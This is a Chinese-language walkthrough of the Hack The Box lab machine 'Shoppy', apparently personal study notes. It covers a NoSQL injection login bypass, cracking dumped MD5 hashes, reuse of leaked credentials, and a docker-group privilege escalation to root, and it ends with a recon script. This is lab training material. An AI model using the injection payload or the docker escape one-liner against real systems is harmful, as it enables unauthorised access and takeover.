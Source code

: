 ```yaml
---
tags:
  - HTB/Linux
  - HTB/Easy
---
```


## 扫描

### 端口

```bash
nmap -v -n -Pn -sCV -oN Shoppy.nmap 10.10.11.180
```
只扫出22和80端口。


## 漏洞分析

### 80端口

将靶机域名加入hosts后访问。  
虽然感觉HTB的靶机域名应该都挺固定的，姑且写了个命令行，收集域名后加入hosts文件，看看以后能否通用：  
```bash
HTB_IP='10.10.11.180'; cat -e /etc/hosts && sudo sh -c "echo \"${HTB_IP}    $(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | sed 's/\r//g')\"  >> /etc/hosts"; cat -e /etc/hosts
``` 

- 无robots  
- 网页源码无发现  
- 网站无特别功能

本来打算枚举一下目录，不过惯例试了一下 `/login` 可以。  
在登陆界面尝试了几个SQLi绕过未果。SQLi只会一点基础的……卡住  

*搜了一波WP原来这里是 [NoSQL](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo) ……*

`admin'||'1==1` 成功登入。

admin界面有搜索框，输入 `admin` 搜索有回显admin的密码。看上去感觉是MD5加密。  
在搜索框输入同样的 `NoSQLi`，成功回显所有用户（admin和josh）的账号密码。

放进[MD5解码网站](./../../tool-links.md#_2)试试。`josh` 用户可成功解码。

但是至此似乎没什么其他攻击路径了。

#### 子域枚举

由于是靶机所以只扫虚拟主机的子域

```bash
gobuster vhost -u shoppy.htb -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain
```

扫出一个：`Found: mattermost.shoppy.htb Status: 200 [Size: 3122]`，将其也加入hosts。  
*最开始没加 `--append-domain` 啥都没扫出来。所以最好正式开扫之前加上 `-v` 小扫一下看看，否则都不知道自己扫的是啥容易错过突破口。*

#### 从子域突破

但是访问后是空白页面，试着刷新几次发现似乎有一闪而过的登陆界面。  
开burp拦截使其停在登录界面，输入刚破解的 `josh` 的账号密码，成功登入。


## foothold

是一个聊天工具的样子。有个带锁的频道十分引人注意。看了眼内容是让我们（josh）部署一个机器。还有账号密码：  

	username: jaeger
	password: Sh0ppyBest@pp!

SSH登陆成功。


## get user flag

```bash
jaeger@shoppy:~$ cat user.txt
```


## 横向移动

首先看看 `sudo -l`：  
```bash
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)


jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager


jaeger@shoppy:~$ ls -l /home/deploy/
total 28
-rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
-rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
-rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
```

deploy家目录有creds.txt但是无法读取。  

看看sudo的那个命令是啥：  
`strings /home/deploy/password-manager`，注意到里面有段文字：`cat /home/deploy/creds.txt`  
似乎这个脚本可以读取creds.txt。尝试一下执行：  
```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

但是不知道密码？？josh的那个不行，需要什么master password。迷茫……

*看了眼WP，竟然是用 `cat password-manager` 能发现有用的信息，服了。一直惯性觉得cat二进制文件没用每次都直接strings了……*

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy ./password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

SSH成功登陆 `deploy` 用户。
```bash
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```


## 提权

`deploy` 用户的这个 `998(docker)` 是什么情况，值得探究一下。  
通过[gtfobins](https://gtfobins.github.io/gtfobins/docker/)发现可以利用。运行下面命令后成功得到root shell：  
```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```


## get root flag

```bash
# cd
# ls
root.txt
# cat root.txt
```


---

## 后记

原来是NoSQL...

说是多了个横向移动吧，其实和之前靶机比，从foothold开始获得的用户数量又没差。  
大概是因为这次是web打点时用了一个账户，后来用的又是两个普通用户的账户而没有应用账户吧。

以及以前一直觉得既然SSH能成功登陆，就已经知道自己登陆的是什么用户，那么 `id` 命令没啥意义。  
这次随手一打竟然能发现deploy用户属于docker组，从而发现突破口，也属实是运气了……


最后，  
联系[这个思路](./../../information-gathering/summary.md#web_info_gathering)，感觉信息搜集可以弄一个简易脚本。以后试试直接用这个：

### HTB_easy_firstScaning
 
```bash
#!/usr/bin/bash
# -*- coding:utf-8 -*-

## This script is requires root privilege for running.
set -eu

HTB_IP=${1}
echo "[info] Starting scan..."

# --max-retries=0 maybe ok, but sometimes missing some ports. Default is 10.
ports=$(nmap -n -Pn -sS -p 1-10000 ${HTB_IP} --min-rate=5000 --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
echo "[info] Opening port: ${ports}"

# Since nmap scanning is too time-consuming, let it run in background.
nohup nmap -v -n -Pn -sV -O -p ${ports} --script=vuln ${HTB_IP} > "${HTB_IP}.nmap" 2>&1 &

if [[ ${ports} =~ '80' ]];then
  HTB_DOMAIN=$(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | tr -d '/\r')
  echo "[info] domain: ${HTB_DOMAIN}"

  if [[ ${HTB_DOMAIN} != '' ]];then
    # for backup
    cat -e /etc/hosts
    echo "-------- Backed up hosts --------"
    
    echo "${HTB_IP}    ${HTB_DOMAIN}" >> /etc/hosts
    
    cat -e /etc/hosts
    echo "-------- Modified hosts --------"

    echo "[info] Scanning subdomain..."
    gobuster vhost -u ${HTB_DOMAIN} -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain -o "subdomains_${HTB_DOMAIN}.txt"
    echo "[info] End of subdomain scan..."
  fi
fi

ps -ef | grep 'nmap -v -n -Pn'
echo "[info] Please check nmap status with: ps -ef | grep 'nmap -v -n -Pn'"
```